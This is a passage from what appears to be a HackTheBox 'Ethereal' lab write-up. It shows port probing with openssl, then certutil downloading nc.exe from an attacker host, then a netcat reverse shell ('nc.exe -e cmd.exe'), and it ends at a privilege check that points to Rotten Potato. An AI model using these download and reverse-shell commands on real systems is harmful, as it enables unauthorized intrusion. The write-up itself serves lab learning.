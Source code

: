 I used `Wireshark` to look for incoming `SYN packets` and started the scan.

```bash
root@kali:~/hackthebox/Machines/Ethereal# ./scanport.py
[...]
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 72
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 73
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 74
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 75
[...]
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 135
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 136
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 137
"c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -host 10.10.14.23 -port 138
```

From the pcap, I identified inbound connections on port `73` and `136`.

![](/assets/images/htb-writeup-ethereal/wireshark.png)

Now, we just need to get netcat uploaded to the `server` and try to get a proper shell.

First, let's start an HTTP listener on port 73 to host nc.exe, then issue `certutil.exe -urlcache -split -f http://10.10.14.23:73/nc.exe c:\users\public\desktop\shortcuts\nc.exe`

And finally, spawn a netcat connection with `c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 136`

We finally got a shell!

![](/assets/images/htb-writeup-ethereal/shell1.png)

### Privesc

Our IIS user has `SeImpersonatePrivilege` so we can probably do Rotten Potato.

```bash
c:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
